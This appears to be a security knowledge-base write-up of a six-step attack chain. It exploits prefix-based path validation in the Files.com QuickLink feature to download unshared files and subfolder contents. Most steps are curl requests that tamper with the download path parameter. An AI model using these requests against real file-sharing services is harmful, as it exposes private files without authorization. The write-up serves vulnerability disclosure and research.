

# Broken Access Control in Files.com QuickLink Allowing Unauthorized Prefix-Based File Access

Multi-stage attack chain demonstrating exploitation of Files.com's QuickLink feature through flawed prefix-based access controls, allowing unauthorized access to sensitive unshared files.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 6 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/curl]]
- Web browser for initial setup (optional)

### Target Environment

- Files.com instance with QuickLink sharing enabled
- Access to create and share files (authenticated user)
- Web platform

### Initial Access Requirements

- Valid account on Files.com to create test files
- No special network position required; public QuickLink is accessible

## Detailed Attack Procedures

### Step 1: Create Test Files and Folders
procedure: [[procedures/Create-Test-Files-and-Generate-QuickLink]]

**Objective**: Set up files and folders with shared prefixes to test access controls.

**Instructions**: Log in to Files.com and create files '1bar', 'foo', 'footer.php', and a folder 'foobar/secret' in the file system.

**Expected Output**: Files and folder created successfully.

**Success Indicators**:
- Files listed in the dashboard
- Folder 'foobar/' contains 'secret'

### Step 2: Share the File 'foo' Using QuickLink
procedure: [[procedures/Create-Test-Files-and-Generate-QuickLink]]

**Objective**: Generate a public QuickLink for the shared file 'foo' to obtain the bundle code.

**Instructions**: Select file 'foo' and use the 'Copy Public QuickLink' action to generate the shareable link.

**Expected Output**: Bundle code '23a17148e' and URL https://pwn.brickftp.com/f/23a17148e.

**Success Indicators**:
- QuickLink generated and accessible
- Bundle contains only 'foo'

### Step 3: Attempt to Download the Shared File 'foo'
procedure: [[procedures/Exploit-QuickLink-Path-Parameter-for-File-Access]]

**Objective**: Verify normal access to the shared file using the legitimate path.

**Instructions**: Use [[commands/curl-quicklink-download]] to send a GET request:

```bash
curl -X GET "https://pwn.brickftp.com/bundles/download?code=23a17148e&path=foo&x=767de6540" -o foo.txt
```

**Expected Output**: File 'foo' downloaded successfully.

**Success Indicators**:
- HTTP 200 response
- File contents retrieved

### Step 4: Test Invalid Path
procedure: [[procedures/Exploit-QuickLink-Path-Parameter-for-File-Access]]

**Objective**: Confirm error handling for non-prefix paths to understand control boundaries.

**Instructions**: Modify the path to 'bar' and execute using [[commands/curl-quicklink-download]]:

```bash
curl -X GET "https://pwn.brickftp.com/bundles/download?code=23a17148e&path=bar&x=767de6540"
```

**Expected Output**: 'Invalid path for bundle' error.

**Success Indicators**:
- HTTP error response
- Access denied for non-matching prefix

### Step 5: Exploit Path to Download Unshared 'footer.php'
procedure: [[procedures/Exploit-QuickLink-Path-Parameter-for-File-Access]]

**Objective**: Bypass controls to access unshared file sharing the 'foo' prefix.

**Instructions**: Change path to 'footer.php' and download using [[commands/curl-quicklink-download]]:

```bash
curl -X GET "https://pwn.brickftp.com/bundles/download?code=23a17148e&path=footer.php&x=767de6540" -o footer.php
```

**Expected Output**: Unshared file 'footer.php' downloaded.

**Success Indicators**:
- HTTP 200 response
- Sensitive file contents exposed

### Step 6: Access Subdirectory Contents
procedure: [[procedures/Exploit-QuickLink-Path-Parameter-for-File-Access]]

**Objective**: Retrieve contents from subdirectory using prefix path.

**Instructions**: Use path 'foo' to access 'foobar/' directory with [[commands/curl-quicklink-download]]:

```bash
curl -X GET "https://pwn.brickftp.com/bundles/download?code=23a17148e&path=foo&x=767de6540" -o directory_contents.zip
```

**Expected Output**: Contents including 'secret' from 'foobar/' downloaded.

**Success Indicators**:
- Directory listing or zip with secret file
- Unauthorized subdirectory access confirmed

## Attack Chain Summary

### Key Achievements

1. Generated QuickLink for controlled file access
2. Bypassed exact path matching via prefix validation flaw
3. Accessed unshared files and subdirectories, exposing sensitive data

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[File and Directory Discovery]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Discovery]]

---
*Last updated: 2023-10-01T00:00:00Z*
